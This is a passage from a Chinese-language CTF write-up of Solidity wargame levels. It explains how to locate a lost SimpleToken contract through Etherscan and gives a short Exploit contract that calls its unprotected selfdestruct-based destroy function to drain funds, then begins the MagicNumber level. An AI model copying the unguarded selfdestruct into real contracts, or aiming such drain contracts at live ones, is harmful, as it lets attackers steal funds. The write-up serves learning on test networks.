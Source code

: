         // clean up after ourselves
        function destroy(address payable _to) public {
            selfdestruct(_to);
        }
    }
    ```

题意是 instance 调用了 generateToken 生成了一个 SimpleToken，但是不知道生成的合约地址，现在要调用这个合约的 selfdestruct 来将其中余额转到 player 账户中

因为区块链都是透明的，所以可以直接去 [Etherscan](https://etherscan.io/) 的 [Rinkeby 网络](https://rinkeby.etherscan.io/)中查找 instance 这个地址上的合约，及其中的 internal txns，就可以看到一个 Contract Creation，那个地址就是生成的 SimpleToken 地址，所以写一个 exp 来调用那个地址上的的 destroy 函数就好了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of SimpleToken */

    contract Exploit {
        SimpleToken token;
        constructor(address payable challenge) public { // challenge 是找到的 SimpleToken 地址
            token = SimpleToken(challenge);
        }
        function exp() public {
            token.destroy(msg.sender);
        }
    }
    ```

---

## MagicNumber

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract MagicNum {

        address public solver;

        constructor() public {}

        function setSolver(address _solver) public {
            solver = _solver;
        }

        /*
            ____________/\\\_______/\\\\\\\\\_____        
             __________/\\\\\_____/\\\///////\\\___       
              ________/\\\/\\\____\///______\//\\\__      
               ______/\\\/\/\\\______________/\\\/___     
                ____/\\\/__\/\\\___________/\\\//_____    
                 __/\\\\\\\\\\\\\\\\_____/\\\//________   
                  _\///////////\\\//____/\\\/___________  
                   ___________\/\\\_____/\\\\\\\\\\\\\\\_ 
                    ___________\///_____\///////////////__
        */
    }
    ```
